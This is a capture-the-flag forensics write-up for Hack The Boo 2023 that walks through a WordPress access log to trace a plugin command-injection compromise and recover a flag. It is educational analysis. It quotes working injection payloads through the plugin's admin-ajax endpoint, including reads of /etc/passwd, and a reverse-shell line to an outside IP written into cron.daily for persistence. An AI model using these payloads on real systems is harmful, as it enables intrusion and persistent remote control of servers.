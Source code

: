 ```yaml
---
layout: default
title: Vulnerable Season
---
```


# [Hack The Boo 2023 - Practice](index.md) - Forensics - Vulnerable Season

> Halloween season is a very busy season for all of us. Especially for web page administrators. Too many Halloween-themed parties to attend, too many plugins to manage. Unfortunately, our admin didn't update the plugins used by our WordPress site and as a result, we got pwned. Can you help us investigate the incident by analyzing the web server logs?

We are provided with a single file - `access.log`.

```
192.168.25.1 - - [28/Sep/2023:00:46:16 -0400] "GET /wordpress/wp-includes/js/zxcvbn.min.js HTTP/1.1" 200 400401 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:41 -0400] "POST /wordpress/wp-login.php HTTP/1.1" 200 3281 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:41 -0400] "POST /wordpress/wp-cron.php?doing_wp_cron=1695876461.7606439590454101562500 HTTP/1.1" 200 259 "-" "WordPress/6.3.1; http://johnathan.dev/wordpress"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-admin/css/l10n.min.css?ver=6.3.1 HTTP/1.1" 200 1022 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-admin/css/forms.min.css?ver=6.3.1 HTTP/1.1" 200 6858 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/css/buttons.min.css?ver=6.3.1 HTTP/1.1" 200 1791 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/css/dashicons.min.css?ver=6.3.1 HTTP/1.1" 200 36068 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-admin/css/login.min.css?ver=6.3.1 HTTP/1.1" 200 2493 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/js/jquery/jquery.min.js?ver=3.7.0 HTTP/1.1" 200 30696 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [28/Sep/2023:00:47:42 -0400] "GET /wordpress/wp-includes/js/jquery/jquery-migrate.min.js?ver=3.4.1 HTTP/1.1" 200 5223 "http://johnathan.dev/wordpress/wp-login.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
...
```

Looks like it's a web server log.

Skimming the logs, we can see that `82.179.92.206` is likely "dirbusting" this server to find vulnerabilities.

```
...
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env-sample HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.dev HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.dev.local HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.development.sample HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.development.local HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
82.179.92.206 - - [28/Sep/2023:05:13:53 -0400] "GET /wordpress/.env.docker HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
...
```

And judging by the end of the log, it looks like the bad guy got in, and the server admin was likely kicked out

```
68.124.212.176 - - [28/Sep/2023:05:30:36 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:37 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
68.124.212.176 - - [28/Sep/2023:05:30:38 -0400] "POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1" 200 1913 "http://johnathan.dev/wordpress/wp-login.php?action=lostpassword" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.43"
```

Starting on line 11473 we can see that the attacker was able to access some tiles that they shouldn't, judging by the HTTP status codes (200 instead of 404) 
```
82.179.92.206 - - [28/Sep/2023:05:16:46 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:id:NULL:NULL HTTP/1.1" 200 539 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:17:03 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:whoami:NULL:NULL HTTP/1.1" 200 493 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:17:44 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:cat%20/etc/passwd:NULL:NULL HTTP/1.1" 200 544 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:18:23 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:pwd:NULL:NULL HTTP/1.1" 200 522 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
82.179.92.206 - - [28/Sep/2023:05:21:22 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL HTTP/1.1" 200 512 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```

Knowing that the flag is in this log file somewhere, I'm looking for larger blobs of code or encoded text. I spot something on line 11477:
```
field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL
```
If we urldecode this it's a bit more readable - clearly some commands for a Linux system of some sort - a reverse shell hidden in cron so that it runs daily (granting persistence). 
```bash
field=field:exec:echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev:NULL:NULL
```

The rest of this line looks fishy though - like it's hidden data rather than malicious code... I'd expect it to _run_ something, not deobfuscate it into an `echo` command and then bade64 decoding it with `base64 -d`.

```bash
Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64
```
```
}r3Nn1gEb_4_t5yl4n@_g0L{BTH
```

Lets put the `|rev` back on the end to put that the right way around...

```bash
Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64|rev
```

It looks like some bash obfuscation happening here, but this looks like if we just copy this part of it out and run it in bash, it should decode it and display it.

```
HTB{L0g_@n4ly5t_4_bEg1nN3r}
```
